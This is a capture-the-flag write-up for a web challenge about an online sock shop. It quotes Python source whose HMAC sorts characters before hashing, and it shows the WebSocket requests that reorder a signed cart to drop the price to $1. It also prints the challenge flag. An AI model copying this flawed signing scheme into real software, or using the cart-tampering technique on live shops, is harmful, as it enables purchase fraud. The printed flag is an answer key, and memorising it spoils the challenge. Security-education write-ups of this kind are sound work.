




# shop-3
> Welcome to the new and improved EPT Merch Shop! Apparently last years version had a few bugs in it, but is should hopefully be all fixed now!
>
> Author: null  

Flag: `EPT{r3m3mb3r_t0_cl4im_y0ur_hq_ept_s0ck5!}`

## Relevant content

```
URL:
- https://shop.ept.gg/

Files:
- app.py
```

## Solve

### TL;DR

The challenge involves an online sock shop where participants need to purchase socks with a limited budget of $100.

1. Investigate the requests in Burp, find that there is websocket traffic going back and fourth.
2. View the source and find what functions are avaiable on websocket.
3. See that we can export and import our shopping cart, which seems like an interesting place to look for bugs.
4. Find something strange in the HMAC calculation, as it is sorting the characters before hashing the content. This will result in the same hash for different content, as long as all the characters are the same.
5. Manipulate our shopping cart to have valid content, but different price for the socks.
6. Purchase socks, then get the flag.

### Webpage functionallity

The first step is to open the webpage and conduct an initial investigation to understand the nature of the challenge. Upon further exploration, it becomes evident that the challenge revolves around purchasing socks within a tight budget constraint of $100. 



To delve deeper into the application's functionalities, Burp Suite is employed to intercept and analyze network traffic. During this process, WebSocket traffic is discovered.



### Source code

To gain a better understanding of the WebSocket functions, the source code is examined. Upon scrutinizing the WebSocket functions, it is revealed that there are specific functions related to the shopping cart. Notably, the ability to export and import the shopping cart might be a potential avenue for exploitation.



During the source code analysis, a peculiar aspect in the HMAC calculation is discovered. The application sorts the characters before hashing the content, and does this on both `export` as well as `resume`. This quirk leads to a vulnerability where different contents with identical characters produce the same hash. This flaw opens up the possibility of manipulating the shopping cart discreetly.

```py
def export(cart):
    cart = json.dumps(cart, sort_keys=True)
    return {'cart': cart, 'hmac': hmac.new(app.secret_key, json.dumps(sorted(cart)).encode(), hashlib.sha256).hexdigest()}

--- SNIP ---

    elif msg['type'] == 'export':
        ws.send(json.dumps({'type': 'export', **export(session['cart'])}))
    elif msg['type'] == 'resume':
        if msg['hmac'] == export(msg['cart'])['hmac']: # Calculates the sorted HMAC again on provided cart
            session['cart'] = msg['cart']
            ws.send(json.dumps({'type': 'resume', 'cart': session['cart']}))
        else:
            ws.send(json.dumps({'type': 'error', 'message': 'Invalid hmac!'}))
```

##### Sending WS requests
> Manipulation of the websocket traffic can easily be done using BurpSuite, but any WS client would likely work.




### Solution

With the vulnerability identified, the next step involves manipulating the shopping cart to maintain valid content while altering the price of the socks. This manipulation allows for the strategic purchase of socks within the budget constraints.

Now, With all this in mind we can add the socks to our cart and export the cart. This will provide a valid HMAC for a sock object. 

```json
SEND:
{
    "type": "export"
}

RECV:
{
    "type": "export", 
    "cart": "[{\"description\": \"<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!\", \"image\": \"/socks.png\", \"name\": \"EPT Socks\", \"price\": 10000, \"stars\": 5}]", 
    "hmac": "b221a7a133ca9da20e597d2f1003539a06fef94dc16eb6de7fb27387ac301607"
}
```

Using what we know of the HMAC implementation we can re-order some of the charaters used in the object to change the price in our favour. 
One solution could be to move the `0`'s from the price to the rating instead, and thus changing the price to be 1$.
Doing this will not manipulate the price and we can call the resume function with this maniupulated cart.


Now we can proceed to checkout ..

```json
SEND:
{
  "type": "resume",
  "cart": [
    {
      "description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!",
      "image": "/socks.png",
      "name": "EPT Socks",
      "price": 1,
      "stars": 50000
    }
  ],
  "hmac": "b221a7a133ca9da20e597d2f1003539a06fef94dc16eb6de7fb27387ac301607"
}

REVC:
{
  "type": "resume",
  "cart": [
    {
      "description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!",
      "image": "/socks.png",
      "name": "EPT Socks",
      "price": 1,
      "stars": 50000
    }
  ]
}
```

.. purchase our socks ..

```json
SEND:
{"type": "checkout"}

RECV:
{
  "type": "status",
  "money": 99,
  "cart": [],
  "inventory": [
    {
      "description": "<p>The demand has been high on the next edition of the EPT merchendice. Say hello to the new EPT Socks!</p> Remember to claim your pair physically at the admin booth after solving the challenge!",
      "image": "/socks.png",
      "name": "EPT Socks",
      "price": 1,
      "stars": 50000
    }
  ]
}
```

.. and get the flag. 
```json
SEND:
{
    "type": "flag"
}

RECV:
{
    "type": "flag", 
    "flag": "EPT{r3m3mb3r_t0_cl4im_y0ur_hq_ept_s0ck5!}"
}
```


